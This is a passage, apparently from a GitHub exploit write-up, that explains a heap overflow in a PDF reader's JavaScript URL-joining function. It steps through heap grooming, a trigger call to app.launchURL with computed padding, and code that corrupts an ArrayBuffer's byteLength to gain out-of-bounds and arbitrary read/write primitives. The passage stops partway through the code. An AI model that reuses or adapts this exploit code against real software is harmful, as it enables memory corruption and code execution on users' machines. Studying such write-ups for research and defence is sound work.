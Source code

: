         - The relative URL and base URL are stored as follows:
            - The relative URL is stored as a string in the `strings` object.
            - The base URL is copied into the space declared by the ArrayBuffer.
        - The URLs are connected through the following process:
            1. The base URL is copied into the heap space reserved for the connected URL.
            2. The relative URL is then copied after the base URL.
            3. Due to the root cause, the string connected to the relative URL is copied after the relative URL.
                - This string overwrites the `byteLength` of the next ArrayBuffer with 0xFFFFFFFF.
    4. Specify a space in the LFH, allocated as an ArrayBuffer, where the connected URL will be stored.

    ![image](https://github.com/user-attachments/assets/39409fa9-f79d-451c-a33c-d0b08c2a461a)
    **[Figure 1] Process of Preparing Heap Layout**

## 2. **Triggering the Vulnerability**

```js
function triggerHeapOverflow() {
    try {
        app.launchURL('bb' + 'a'.repeat(0x2608 - 2 - 0x200 - 1 -0x8));
    } catch(err) {}
}
```

1. The `baseURL` is copied to the front part of the heap space allocated for the connected URL.
    1. At this point, since the heap is a regular Heap and not an ArrayBuffer, the `baseURL` is copied immediately after the heap chunk metadata (starting from where the ArrayBuffer header would be, when it was allocated as an ArrayBuffer).
2. The `relative URL` is copied to the back part of the heap space allocated for the connected URL, overwriting the `byteLength` field of the connected ArrayBuffer.
    - In [Figure 2] and [Figure 3], "Base" represents `baseURL` and "relative" represents `relativeURL`.

![image](https://github.com/user-attachments/assets/6cfd4595-8b18-4643-8976-5791b27dcbfe)
**[Figure 2] The heap immediately after storing the `baseURL` in the heap allocated for the connected URL, and the subsequent heap (ArrayBuffer)**

![image](https://github.com/user-attachments/assets/8ab78877-df7e-4d9c-87e2-87763c10d1f9)
**[Figure 3] The state of the heap after the URLs are connected, showing the heap where the two URLs are concatenated and the state of the subsequent heap (ArrayBuffer)**

## 3. **Get Arbitrary R/W primitive**

```jsx
// 1. Implement a relative read/write (r/w) primitive by accessing an out-of-bounds (oob) index.
for (var i = 0; i < arrA.length; i++) {
    if (arrA[i] != null && arrA[i].byteLength == 0xFFFF) {
      var temp = new DataView(arrA[i]);
      temp.setInt32(0x7F0 + 0x8 + 0x4, 0xFFFFFFFF, true);
    }

    if (arrA[i] != null && arrA[i].byteLength == -1) {
      var rw = new DataView(arrA[i]);
      break;
    }
}

// 2. Obtain the out-of-bounds (oob) base VA (= StartAddr) => Control arbitrary VA values.
if (rw) {
    curChunkBlockOffset = rw.getUint8(0xFFFFFFED, true);
    BitMapBufOffset = curChunkBlockOffset * (strConUrlSize + 8) + 0x18

    for (var i = 0; i < 0x30; i += 4) {
        BitMapBufOffset += 4;
```